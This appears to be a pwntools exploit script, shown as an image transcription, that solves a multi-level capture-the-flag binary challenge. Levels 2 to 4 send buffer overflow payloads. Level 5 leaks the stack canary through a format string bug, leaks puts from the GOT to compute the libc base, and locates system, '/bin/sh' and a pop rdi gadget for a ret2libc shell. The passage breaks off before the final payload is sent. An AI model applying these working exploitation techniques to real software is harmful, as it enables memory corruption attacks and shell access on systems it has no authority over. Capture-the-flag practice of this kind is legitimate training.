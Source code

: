```
level2_exploit = '\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\xc9\x07\xcc\x00'
r.recvuntil('What is your party name? ')
r.sendline(level2_exploit)
log.info('Passed Level 2.')

# Level 3

level3_exploit = '\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x2d'
r.recvuntil('what is your favorite spell? ')
r.sendline(level3_exploit)
log.info('Passed Level 3.')

# Level 4

ADDR_OF_GOAL = p32(0x804a47c)
level4_exploit = "\x61" * 108 + ADDR_OF_GOAL
r.recvuntil('action: ')
r.sendline('73')
r.recvuntil('your name? ')
r.sendline(level4_exploit)
log.info('Passed Level 4.')

# Level 5

elf = ELF('level5')

r.recvuntil('[3 format]: ')
r.sendline('3')
r.recvuntil('The possibilities are endless!\n')
r.sendline('%71$lxA')
stack_can = int(r.recvuntil('A')[:-1], 16)
log.info('Stack canary : ' + hex(stack_can))
puts_offset = libc.symbols['puts']
system_offset = libc.symbols['system']
binsh_offset = libc.search('/bin/sh').next()
poprdi_ret_offset = libc.search(asm('pop rdi; ret', arch = 'amd64', os = 'linux')).next()
puts_got = elf.got['puts']

puts_plt = elf.plt['puts']

r.recvuntil('[3 format]: ')
r.sendline('3')
r.recvuntil('The possibilities are endless!\n')
r.sendline('%7$sAAAA' + p64(puts_got))
puts_addr = r.recvuntil('AAAA')[:-4]
for i in range(8 - len(puts_addr)):
	puts_addr += '\x00'
puts_addr = u64(puts_addr)
base_addr_libc = puts_addr - puts_offset

binsh_addr = binsh_offset + base_addr_libc
system_addr = system_offset + base_addr_libc
poprdi_ret_addr = poprdi_ret_offset + base_addr_libc
```
